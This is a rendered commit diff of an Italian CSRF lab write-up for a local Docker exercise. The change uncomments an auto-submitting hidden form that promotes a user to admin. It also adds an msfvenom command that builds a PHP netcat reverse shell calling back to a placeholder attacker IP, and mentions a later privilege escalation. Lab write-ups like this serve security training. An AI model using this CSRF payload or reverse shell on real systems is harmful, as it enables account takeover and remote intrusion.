

Before and after one commit to JX82-web/Lab_Cibersecurity_Doker, a Markdown page: lab_CSRF/writeup_csrf_lab.md, the part around one of its changes. Rendered like a GitHub page; folded sections open; blank space fills up the shorter version.

Commit message:
Refine CSRF lab writeup with code and explanations
Updated HTML content and added explanations for CSRF attack steps.

````diff
--- a/lab_CSRF/writeup_csrf_lab.md
+++ b/lab_CSRF/writeup_csrf_lab.md
@@ -134,9 +133,9 @@
 				<body>
 					<p>Caricamento in corso...</p>
 					<!-- Il form punta all'endpoint vulnerabile sul container web -->
-		<!--			<form id="csrfForm" action="http://127.0.0.1:8080/app_internal/admin.php" method="POST">
+					<form id="csrfForm" action="http://127.0.0.1:8080/app_internal/admin.php" method="POST">
 						<!-- ID dell'utente dell'attaccante da promuovere (es. ID 2 per analyst) -->
-		<!--				<input type="hidden" name="user_id" value="3">
+						<input type="hidden" name="user_id" value="3">
 						<input type="hidden" name="new_role" value="admin">
 					</form>
 					<script>
@@ -145,30 +144,33 @@
 					</script>
 				</body>
 			</html>
-		-->
 	</p>
 </details>
-+ Salviamolo come malicius.html e prepariamo un server web con python in attesa di richieste.
+
+# Salviamolo come malicius.html e prepariamo un server web con python in attesa di richieste.
 
 ```bash
 python3 -m http.server 8000
 ```
+<details dir="open">
+	<summary> 🧨 Spiegazione della fase finale clicca  per espandere.</summary>summary
+	<p>
 + inviamo la richiesta dal pannello con la nostra direzione url puntando a malicius.html
 + subito dopo notiamo che riceviamo la richiesta dall wev server . apro altra pagina rieseguo il login con le credenziali create per accedere al sito e...
 + l'exploit a funzionato siamo loggati come utenti admin tramite attacco CSRF, subito dopo notiamo un pannello di amministrazione dove si puo caricare un immagine profilo
 + l'unico problema resta che accetta solo file .zip.
+	</p>
 
+#  Reverseshell con `msfvenom`
 ```bash
 msfvenom -p php/unix/cmd/reverse_netcat LHOST=172.X.X,X LPORT=4444 -f raw > shell.php
 chmod +x shell.php
 ```
-* Siamo dentro come utente www-data.</p>
-
-
-
+* Siamo dentro come utente www-data.
 
 # Privilege Escalation
-* dopo una lunga ricerca ed enumerazione di systema troviamo le credenziali per elevare i nostri privilegi.
+* dopo una lunga ricerca ed enumerazione del sistema, troviamo le credenziali per elevare i nostri privilegi.
+
 <details open>
 	<summary> ✴️ HINT Guarda risultato privilege escalation </summary>
 		<p dir="auto">
````
Also changed, not shown: other parts of lab_CSRF/writeup_csrf_lab.md (+1 -2 lines).
